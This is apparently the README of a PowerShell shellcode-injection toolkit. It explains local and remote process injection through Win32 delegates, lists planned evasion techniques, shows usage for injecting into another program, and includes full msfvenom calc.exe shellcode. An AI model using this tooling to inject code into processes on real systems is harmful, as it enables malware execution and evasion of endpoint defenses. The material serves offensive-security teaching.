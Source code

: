 
![image](https://github.com/user-attachments/assets/64fc45d9-b612-47ff-b1bd-e88c89c73259)

This project is a collect of educational PowerShell-based shellcode injection/execution tools with overly verbose comments by design.
The goal is to offer a modular, readable framework that can educate people on native Windows API usage, shellcode execution techniques,
and low-level PowerShell tomfoolery (without leaning on `Add-Type` or embedded `C#`).

It is written with learning in mind over pure stealth and evasion -- hence why it is written in PowerShell instead of any other
language that would *actually* make sense (though to be fair that is kinda what makes this project fun and interesting).

**📁 Directory Structure**
```
ShellcodeLoaderPS/
|
|__ helpers/
|   |__ win32-examples/*         # Contains examples of Win32 API usage via helper functions (e.g., `CreateProcessA().ps1`).
|   |__ Build-Win32Struct.ps1    # Defines .NET data structs within the session usable by Win32 functions.
|   |__ Format-ByteArray.ps1     # Converts shellcode strings in different languages to usable byte arrays.
|   |__ Load-Win32Function.ps1   # Dynamically resolves and loads Win32 API functions into session via delegates.
|
|__ standalone/
|   |__ add-type/*               # Standalone function(s) for shellcode injection using `Add-Type`.
|   |__ win32/*                  # Standalone function(s) for shellcode injection using Win32 API via helper functions.
|   |__ native/*                 # Standalone function(s) for shellcode injection using Native API via helper functions.
|
|__ Load-Shellcode.ps1           # Main shellcode injector function, wrapping functionality of standalone functions.
|__ calc32.bin                   # Example 32-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
|__ calc64.bin                   # Example 64-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
```
_(Note: this project is work-in-progress, therefore some directory structures haven't been implemented yet)_

---

## Technical Roadmap

> This project is actively in development and has a long way to go.  The below section provides a checklist
> with technical details of current and future completion goals, along with educational high-level breakdowns.

<details>
  <summary><b>✅ Avoiding Import Address Table (IAT) via Function Delegates</b></summary>
  
  - **Summary:**
    - This technique avoids common (and noisy) practices such as utilizing `Add-Type` and embedded `C#`.
    - This is accomplished via custom helpers to resolve and invoke raw function pointers with .NET delegates, allowing you to invoke them without adding an entry to the IAT.
    - Custom Scripts: [Load-Win32Function.ps1](./helpers/Load-Win32Function.ps1), [Build-Win32Struct.ps1](./helpers/Build-Win32Struct.ps1)`
</details>

<details>
  <summary><b>✅ Local Process Injection (via Kernel32.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into the current local process (i.e., `PowerShell`) using standard Win32 API calls (aka `Kernel32.dll`).
    - Skipping Native API (aka `Ntdll.dll`) due to remote process injection POC also supporting local process injection.
```mermaid
flowchart LR

%% Establish Processes
PS@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }
Proc@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }

subgraph Win32 Process Injection
  PS --> | Step 1:<br>**VirtualAlloc**<br>Allocate memory.  | Proc
  PS --> | Step 2:<br>**CopyMemory**<br>Copy shellcode to process. | Proc
  PS --> | Step 3:<br>**CreateThread**<br>Execute shellcode. | Proc
  PS --> | Step 4:<br>**WaitForSingleObject**<br>Wait for completion. | Proc
end
```
</details>

<details>
  <summary><b>✅ Remote Process Injection (via Kernel32.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into remote processes via the Win32 API (aka `Kernel32.dll`).
    - This also works for local process injection by targeting the current process' PID.
```mermaid
flowchart TD;

%% Establish Processes
PS@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }
Proc@{ shape: win-pane, label: "<b>Victim</b><br>(Remote Process)" }

subgraph Win32 Process Injection
  PS --> | Step 1:<br>**OpenProcess**<br>Acquire handle to process.  | Proc
  PS --> | Step 2:<br>**VirtualAllocEx**<br>Allocate memory. | Proc
  PS --> | Step 3:<br>**WriteProcessMemory**<br>Copy shellcode to process. | Proc
  PS --> | Step 4:<br>**CreateRemoteThread**<br>Execute shellcode. | Proc
end
```
</details>

<details>
  <summary><b>❌ Remote Process Injection (via Ntdll.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into remote processes via the Native API (aka `Ntdll.dll`).
    - This also works for local process injection by targeting the current process' PID.
```mermaid
flowchart TD;

%% Establish Processes
PS@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }
Proc@{ shape: win-pane, label: "<b>Victim</b><br>(Remote Process)" }

subgraph Native Process Injection
  PS --> | Step 1:<br>**NtOpenProcess**<br>Acquire handle to process.  | Proc
  PS --> | Step 2:<br>**NtAllocateVirtualMemory**<br>Allocate memory. | Proc
  PS --> | Step 3:<br>**NtWriteVirtualMemory**<br>Copy shellcode to process. | Proc
  PS --> | Step 4:<br>**NtCreateThreadEx**<br>Execute shellcode. | Proc
end
```
</details>

<details>
  <summary><b>❌ Process Hollowing</b></summary>
  
  - **Summary:**
    - Create a legitimate process in a suspended state, then replace the process' memory with malicious code before resuming execution.
</details>

<details>
  <summary><b>❌ Parent Process ID (PPID) Spoofing</b></summary>
  
  - **Summary:**
    - Spoof the parent process ID when creating processes.
    - This technique can make malicious processes appear spawned from trusted processes.
</details>

<details>
  <summary><b>❌ APC Injection (aka Earlybird)</b></summary>
  
  - **Summary:**
    - Queue shellcode execution to a thread's Asynchronous Procedure Call (APC) queue for stealthy execution.
</details>

<details>
  <summary><b>❌ Direct System Call Implementation</b></summary>
  
  - **Summary:**
    - Bypass userland API hooks by invoking direct system calls via SysCall stubs.
    - SysCalls are dependent on system architecture and build versions, so this will need to be very modular.
    - Reference: https://j00ru.vexillium.org/syscalls/nt/64/
</details>

## Load-Shellcode.ps1 Usage

> Every script should hopefully be excessively documented, so plese refer to the source code for other examples.

```
Usage: Load-Shellcode [options]

Parameters:
  -Shellcode  -->  Shellcode to execute (can be a byte array or string containing file path or bytes).
  -TargetPID  -->  Target process PID to inject into. 
  -Debug      -->  Pause execution and print shellcode address for process attachment.
  -Help       -->  Return Get-Help information.

Example(s):
  ____________________________________________________________________________
 |                                                                            |
 | # Inject shellcode strintg into the current PowerShell process (and debug) |
 | PS> Load-Shellcode -Shellcode $calc64 -TargetPID $PID -Debug               |
 |                                                                            |
 | # Inject shellcode binary into 'Discord.exe'                               |
 | PS> $DiscordPID = (Get-Process -Name Discord).Id | Select -First 1         |
 | PS> Load-Shellcode -Shellcode .\calc64.bin -TargetPID $DiscordPID          |
 |____________________________________________________________________________|
```
_(Note: as of writing, only Win32-based remote process injection has been implemented -- will update over time)_

![image](https://github.com/user-attachments/assets/8753c151-8cc4-4f19-90be-23a8c2a620c5)

### Shellcode Parsing

For supported shellcode, the `-Shellcode` parameter is intentionally undeclared and written to accept most shellcode formats. Currently supports strings `[string]` and byte arrays `[byte[]]`.
If a standard array `[array]` is used, the array will be converted to a string prior to language detection. If a byte array is used, no formatting will occur.

Below is a table of supported string formats:

| Format | Example |
| --- | --- |
| Path to Raw Shellcode | `.\shellcode.bin` |
| Python Shellcode      | `'b"\x45\x78\x61\x6d\x70\x6c\x65"'` |
| C Shellcode           | `'\x45\x78\x61\x6d\x70\x6c\x65'` |
| C++ / C# Shellcode    | `'{0x45,0x78,0x61,0x70,0x6c,0x65}'` |

### Architecture Support
Works with both `Windows PowerShell` and `PowerShell Core (Pwsh)`. Using 64-bit PowerShell sessions
allows for both 64-bit and 32-bit injection, whereas 32-bit sessions only allow 32-bit injection.

## Shellcode Examples

Included in the files of this repository are two `calc.exe` shellcode files created from `msfvenom`, in both 32-bit and 64-bit...

... with that said, I recognize the inherent trust needed before executing mysterious, unknown shellcode.  With that said, below are string
variants (which are the literal exact bytes I used to write those two `.bin` files) -- so feel free to use these instead.

```powershell
# 32-bit Shellcode (C Format)
# > msfvenom -p windows/exec CMD=calc.exe -f c EXITFUNC=thread

$calc32 = '\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00'

# 64-bit Shellcode (C# Format)
# > msfvenom -p windows/x64/exec CMD=calc.exe -f csharp EXITFUNC=thread

$calc64 = '{
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,
0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,
0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,
0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,
0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,
0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,
0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
}'
```
For 32-bit reverse shell shellcode, check out my [genrev](https://github.com/tylerdotrar/genrev) project!
